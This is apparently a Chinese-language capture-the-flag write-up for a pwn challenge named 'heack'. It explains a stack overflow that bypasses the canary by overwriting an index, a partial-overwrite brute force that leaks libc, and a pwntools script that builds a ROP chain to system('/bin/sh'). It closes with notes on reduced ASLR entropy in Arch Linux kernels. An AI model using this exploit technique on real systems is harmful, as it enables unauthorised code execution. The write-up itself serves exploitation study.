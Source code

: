 # heack

## 文件属性

|属性  |值    |
|------|------|
|Arch  |amd64 |
|RELRO |Full  |
|Canary|on    |
|NX    |on    |
|PIE   |on    |
|strip |no    |
|libc  |2.39-0ubuntu8.4|

## 解题思路

程序里有一个很明显的栈溢出在`fight_dragon`中，但是没有信息，无法直接溢出；
而且返回以后直接`exit(0)`了，我们必须覆写返回地址。

![stack layout](assets/stack.png)

观察到`game`函数里有许多`printf("%lu", ...)`形式的调用，而在我们返回时，
rsi正好是`_IO_2_1_stdout_+131`，那么只要我们能跳转到那里，就能泄露libc，
从而实现构造rop链。注意到在溢出时是一个一个字节写入的，而索引放在比缓冲区高的地方，
因此只需要将索引覆盖为返回地址的偏移，我们就可以直接操作返回地址而跳过canary。

> [!NOTE]
> 原来为了避免爆破，选择跳转到`printf("Data: %d\n", ...)`泄露libc，没想到由于`%d`
> 只能泄露32位，我们仍然需要爆8位（**0x7f??** 或者12位 **0x7???** ，取决于内核选项），
> 相比其跳转到有`%lu`的地方，反而白白地增添了爆破的时间，有点得不偿失了说是。

通过爆破4位，我们可以跳转到上述的地方，然后再构造`system("/bin/sh")`就可以开shell。

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux', 'splitw', '-h']
context.arch = 'amd64'
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './heack'

def payload(lo: int) -> int:
    global t
    if lo:
        t = process(EXE)
        if lo & 2:
            gdb.attach(t)
    else:
        t = remote('1.95.34.119', 9999)
    libc = ELF('/home/Rocket/glibc-all-in-one/libs/2.39-0ubuntu8.4_amd64/libc.so.6')

    def game_arbwrite(chain: bytes):
        t.sendlineafter(b'=== Hero', b'1')
        t.sendlineafter(b'[Battle]', p8(0x17).rjust(0x104, b'\0') + chain)

    # jump to printf("[HP]: %lu\n", $rsi);
    # brute force 1 byte to get libc (printing _IO_2_1_stdout_ + 131)
    low16 = ( (0x39 if not lo & 2 else int(input('??63 ? '), 0)) << 8) | 0x63
    game_arbwrite(p16(low16))

    try:
        t.recvuntil(b'[HP]: ') # if not right, this triggers EOFError
    except EOFError:
        t.close()
        return 0
    libc_base = int(t.recvline()) - 131 - libc.symbols['_IO_2_1_stdout_']
    success(GOLD_TEXT(f'Leak libc_base: {libc_base:#x}'))
    libc.address = libc_base
    gadgets = ROP(libc)
    rdi = gadgets.rdi.address
    ret = gadgets.ret.address

    game_arbwrite(flat(ret, # balance stack to perform system
                       rdi, next(libc.search(b'/bin/sh')), libc.symbols['system'],
                       rdi, 0, libc.symbols['exit']))

    t.clean(0.5)
    t.interactive()
    t.close()
    return 1
```

![flag](assets/heack_flag.png)

## 题外话：丢失的9位ASLR

在和 *hkbin* 聊爆破几位的时候，猛然发现原来Arch是需要爆12位的，结果现在又变回了8位，
blame一下`core/linux`的config记录，发现这个安全措施是在[去年的commit](https://gitlab.archlinux.org/archlinux/packaging/packages/linux/-/commit/3904bcb32cc58c10232fb618bf96c1b43b0bc9d7)中引入的，
然后到了[一个月前](https://gitlab.archlinux.org/archlinux/packaging/packages/linux/-/commit/854d06601d6fd3e245cbd1adee7d4c2b1d40a8e6)又把这个操作回滚了，
有个[专门的issue](https://gitlab.archlinux.org/archlinux/packaging/packages/linux/-/issues/141)讨论这个事，
基本上意思就是遵循上游的原始设定，因为这个选项是开在 *CONFIG_EXPERT* 一节的，
很多开发者会按照默认配置写代码，然后就出现了libasan段错误的情况，因此就选择回滚默认配置了。
如果为了安全，可以选择`linux_hardened`。

issue中还提到了一个[有意思的东西](https://blog.zolutal.io/aslrnt/)，
就是我们打比赛的时候，有时候泄露libc会发现，不只是最后12位是0，而是最后21位都是0。
这其实是因为一些内核的优化，像libc这样超过2MiB的文件，在映射到内存中时，就会使用
**Huge Page**，导致需要使用21位的对齐，而非常规页的12位对齐，这直接导致了9位ASLR的丢失。
作为补偿，有些发行版设置了32位的mmap随机化，通过增加8位随机来对抗这一特性，
然而Arch竟然回到了28位随机化的默认配置，让人有点匪夷所思。

## 参考

1. [6.7.arch3-1 (3904bcb3) Arch Linux / packages / linux](https://gitlab.archlinux.org/archlinux/packaging/packages/linux/-/commit/3904bcb32cc58c10232fb618bf96c1b43b0bc9d7)
2. [6.14.7.arch2-1 (854d0660) Arch Linux / packages / linux](https://gitlab.archlinux.org/archlinux/packaging/packages/linux/-/commit/854d06601d6fd3e245cbd1adee7d4c2b1d40a8e6)
3. [6.14.7.arch2-1: reduced ASLR entropy in CONFIG_ARCH_MMAP_RND_BITS/CONFIG_ARCH_MMAP_RND_COMPAT_BITS? Issues#141](https://gitlab.archlinux.org/archlinux/packaging/packages/linux/-/issues/141)
4. [ASLRn’t: How memory alignment broke library ASLR](https://blog.zolutal.io/aslrnt/)
